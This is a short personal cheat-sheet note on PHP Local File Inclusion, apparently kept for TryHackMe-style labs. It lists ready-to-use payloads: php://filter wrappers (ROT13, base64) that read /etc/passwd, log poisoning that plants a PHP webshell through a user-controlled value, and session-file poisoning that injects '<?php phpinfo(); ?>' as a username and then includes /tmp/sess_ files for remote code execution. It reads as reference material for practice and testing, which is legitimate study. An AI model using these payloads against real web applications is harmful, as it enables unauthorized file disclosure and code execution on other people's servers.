 # Local File Inclusion
Tags: #lfi #php #logs #privesc 
See also: 
Related to: [[linux-privesc]]

## Including a PHP log
If you ever see any webpage that looks like a system log, e.g. showing which user accessed a page, try to get control over that value and insert PHP code between `<?php` tags.

![[thm-wwbuddy-php-log-inject.png]]
In this case, changed WWBuddy name to a webshell

## PHP Wrappers
Generic resource
`?file=php://filter/resource=/etc/passwd`

### Retrieving PHP source code
ROT13
`?file=filter/read=string.rot13/resource=/etc/passwd`

Base64
`?file=php://filter/convert.base64-encode/resource=/etc/passwd`

## PHP session files
PHP can be configured to store session files in e.g. `/tmp` that match the PHPSESSID,
e.g. `/tmp/sess_4qv0tib1blj8be6vibc0rou2s7` if `PHPSESSID=4qv0tib1blj8be6vibc0rou2s7`

This will log login attempts in some cases.

So if you POST 
	username:`<?php phpinfo(); ?>`
	password: `pass`

And can include files, then you can do `?file=/tmp/sess_4qv0tib1blj8be6vibc0rou2s7` after logging in and get RCE
